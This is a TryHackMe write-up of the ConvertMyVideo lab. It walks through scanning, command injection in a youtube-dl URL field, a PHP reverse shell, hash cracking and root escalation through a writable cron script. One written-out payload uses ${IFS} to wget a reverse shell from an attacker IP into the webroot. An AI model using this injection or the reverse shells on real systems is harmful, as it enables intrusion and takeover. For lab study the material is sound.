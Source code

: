 ```yaml
---
title: ConvertMyVideo TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/1.png)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/2.png)

## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/3.png)

We use **dirsearch** and list an interesting directory.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/6.png)

We entry the *"/*******/"* directory and list a basic authentication panel.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/4.png)

We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/7.png)

The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/8.png)

Okay, so let's use the payload so we can read the first flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/9.png)


## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/10.png)

```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/11.png)

Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/12.png)

#### Cracking with JTR

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/13.png)

## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/14.png)

We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/15.png)

We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/ConvertMyVideo/16.png)




